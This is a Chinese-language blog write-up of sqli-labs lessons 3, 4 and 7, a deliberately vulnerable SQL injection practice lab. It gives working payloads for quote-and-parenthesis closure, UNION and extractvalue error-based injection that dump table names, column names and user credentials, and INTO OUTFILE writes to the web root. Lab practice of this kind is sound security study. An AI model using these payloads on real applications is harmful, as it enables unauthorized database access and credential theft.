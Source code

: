 ```yaml
---
title: sqli-labs
date: 2021-12-02 16:16:28
tags: sqli-labs
categories: sqli
typora-root-url: ..
description: sqli-labs记录
---
```


sqli-labs

less3   less4

less4(只需要将less3中的单引号换成双引号即可),同时less4也可通过报错注入

通过单引号报错信息

推测可能在接收参数后添加了( )包裹了id参数

![](/images/sqli-labs/Image.png)

![](/images/sqli-labs/Image%20%5B1%5D.png)

通过构造闭合即可

id=1')%23

接下来用union联合注入即可

less4报错注入:通过检测,发现用双引号和括号对id进行了包裹,测试出的可用语句为id=1") and 1=1%23

根据报错注入公式,开始操作

库名

```sql
id=1")and extractvalue(1,concat('~',(select database())))%23
```

表名

```sql
id=1")and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='security')))%23
```

列名

```sql
id=1")and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users')))%23
```

利用right和left函数相互配合爆出字段名s

```sql
id=1")and%20extractvalue(1,concat(%27~%27,(right((select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27users%27),20))))%23
```

如法炮制,爆数据即可

##### less 7

本题经过尝试得到后台为((' '))包裹参数,可以通过页面显示,变化来进行盲注但是根据本题标题,提示使用outfile函数来进行注入
1.要使用outfile首先要知道绝对路径

通过之前的less进行查询

@@basedir是mysql安装路径

@@datadir是数据库路径

![](/images/sqli-labs/1.png)

2.读写权限测试mysql快速查看读写权限

```sql
show variables like '%secure%';
```

![](/images/sqli-labs/2.png)

```sql
id=1')) and (select count(*) from mysql.user)>0%23
```

如果返回正常,则说明有读写权限

![](/images/sqli-labs/3.png)

其次在linux中还需要mysql用户对目录有w权限才能写入

```sql
id=1%27))%20union%20select%201,2,table_name%20from%20information_schema.tables%20where%20table_schema%20=%27security%27%20into%20outfile%20%27/www/wwwroot/sqli-labs/Less-7/2.txt%27%23
```

通过上述语句查询表名,写入到2.txt

![](/images/sqli-labs/4.png)

貌似文件只能新建,不能重复写入
查询列名

```sql
id=1%27))%20union%20select%201,2,column_name%20from%20information_schema.columns%20where%20table_name%20=%20%27users%27%20into%20outfile%20%27/www/wwwroot/sqli-labs/Less-7/3.txt%27%23
```

查询数据

```sql
id=1%27))%20union%20select%201,username,password%20from%20security.users%20into%20outfile%20%27/www/wwwroot/sqli-labs/Less-7/4.txt%27%23
```

